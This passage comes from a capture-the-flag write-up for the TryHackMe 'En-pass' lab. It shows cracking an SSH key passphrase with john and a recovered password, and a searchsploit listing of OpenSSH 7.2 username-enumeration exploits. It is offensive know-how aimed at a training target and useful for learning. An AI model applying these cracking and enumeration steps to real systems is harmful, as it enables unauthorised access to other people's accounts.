 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# php test.php
Sum = 9
```

So `!!,!,!@,!@#,!@#$,!@#$%,!@#$%^,!@#$%^&,!!!` is the correct input.

**Let's try that:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/En-pass/images/Pasted%20image%2020230101000328.png)

Boom! We got the password!

## Initial Foothold

**Armed with above information, let's use that password to crack the SSH private key's passphrase:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# echo '{Redacted}' > password.txt                                   
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# john --wordlist=password.txt key.john 
[...]
{Redacted} (key)
```

It's indeed correct!

Now, we have the private key. But which user belongs to that key?

**Let's brute force username!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# searchsploit openssh 7.2
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                             | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                       | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                      | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection              | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                 | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Dom | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading             | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                 | linux/remote/45939.py
```